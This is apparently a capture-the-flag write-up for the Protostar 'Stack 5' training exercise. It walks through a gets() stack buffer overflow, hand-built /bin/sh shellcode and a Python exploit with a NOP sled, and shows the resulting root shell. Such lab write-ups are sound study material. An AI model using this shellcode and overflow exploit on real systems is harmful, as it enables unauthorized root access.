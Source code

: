 # STACK 5

## SOURCE CODE

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);           // <- Buffer Overflow
}
```

## IDEA

- We can see that is code has Buffer Overflow vulnerability, but we does not have win or get shell function, so, I write my own shellcode by disassemble from nasm code and put it in stack of program with BOF vuln and execute shellcode to get the shell.

## DETAIL

- This assembly code which we use to inject to stack must not have 0x0 byte (or NULL byte), because we read the input as a string, so if it has 0x0 byte, the gets function just terminated at that byte. 

```asm
section .text:
	global _start:
_start:
  push 	0xb
  pop 	eax                ; mov 	eax, 0xb
  xor 	edx, edx     	   ; mov 	edx, 0

  push 	edx                ; mov 	eax, "/bin/sh"
  push 	0x68732f2f
  push 	0x6e69622f
  mov 	ebx, esp

  xor 	ecx, ecx           ; mov 	ecx, 0
  int 	0x80
```

- Objdump and I have shellcode of this assembly file

```asm
λ ~ \ objdump -D shellcode

shellcode:     file format elf32-i386


Disassembly of section .text::

08049000 <_start>:
 8049000:       6a 0b                   push   $0xb
 8049002:       58                      pop    %eax
 8049003:       31 d2                   xor    %edx,%edx
 8049005:       52                      push   %edx
 8049006:       68 2f 2f 73 68          push   $0x68732f2f
 804900b:       68 2f 62 69 6e          push   $0x6e69622f
 8049010:       89 e3                   mov    %esp,%ebx
 8049012:       31 c9                   xor    %ecx,%ecx
 8049014:       cd 80                   int    $0x80
```

- The shellcode

```
\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```

- We can play something fun with this shellcode in C

```c
// filename: vuln.c
#include<stdio.h>

int main()
{
  char shellcode[] = "\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80";
   ( (void(*)())shellcode )();
  return 0;
}

// gcc -m32 -z execstack -fno-stack-protector -o vuln vuln.c
```

- Compile with flag execstack to enable stack execute shellcode and disable the stack protector to make shellcode work.

```
λ ~ \ gcc -m32 -z execstack -fno-stack-protector -o vuln vuln.c
λ ~ \ ./vuln
$ ls
vuln  vuln.c
$
```

- So the shellcode works pretty well. Let's make some payload to exploit the vulnerability.

## EXPLOIT


```python
# filename: exp.py

payload = "a"*76

ret = "\xfc\xfc\xff\xbf"
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
payload +=  ret + "\x90"*200 + shellcode

print(payload)

# python epx.py > temp.pwn
# (cat temp.pwn; cat) | ./stack5
```

## RESULT

```
root@protostar:/opt/protostar/bin# (cat temp.pwn; cat) | ./stack5
ls
exp.py  final0  final1  final2  format0  format1  format2  format3  format4  heap0  heap1  heap2  heap3  net0  net1  net2  net3  net4  stack0  stack1  stack2  stack3  stack4  stack5  stack6  stack7  temp.pwn
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
```
